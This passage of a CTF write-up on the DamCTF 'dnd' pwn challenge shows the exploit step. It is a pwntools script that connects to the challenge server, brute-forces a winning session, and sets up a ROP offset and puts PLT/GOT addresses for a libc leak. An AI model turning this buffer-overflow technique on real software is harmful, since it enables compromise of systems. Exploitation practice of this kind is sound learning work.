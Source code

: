 This gadget is the most suitable one for setting up our exploit.

## Step 3. Exploit

```python
from pwn import *

FILENAME = "./chal_patched"
context.log_level = "debug"
context.terminal = ["wt.exe", "wsl.exe"]
context.arch = "amd64"
exe = context.binary = ELF(FILENAME)
libc = ELF("./libc.so.6")
r = remote("dnd.chals.damctf.xyz", 30813)

def try_once(r):
    # This function attempts to obtain a "winning" session.
    # As mentioned earlier, I initially overlooked the integer underflow issue while fuzzing the binary.
    # From experimentation, choosing [attack] appears more likely to lead to a win.
    # So this function is essentially brute-forcing until we hit a win — it doesn't always succeed.

    max_rounds = 50
    current_round = 0

    try:
        while current_round < max_rounds:
            current_round += 1
            print(f"[*] Round {current_round}/{max_rounds}")

            output = r.recvuntil(b"? ", timeout=3)
            if not output:
                continue

            decoded = output.decode(errors='ignore').strip()
            log.info(f"Received: {decoded}")

            if "Congratulations!" in decoded or "fierce warrior" in decoded:
                log.success("Found a winning session!")
                return r

            if "Do you want to [a]ttack or [r]un?" in decoded:
                r.sendline(b'a')
                log.info("Sent 'a' to attack")

    except EOFError:
        r.close()
        return None

    r.close()
    return None


try_once(r)  # Start by finding a winning session

# gdb.attach(r, 'b *0x402960')
# pause()

# These are static addresses obtained from the binary.
# Most of them will be used for constructing the payload.
offset = 104
puts_plt = exe.plt['puts']
puts_got = exe.got['puts']
start_addr = exe.symbols['_start']
```
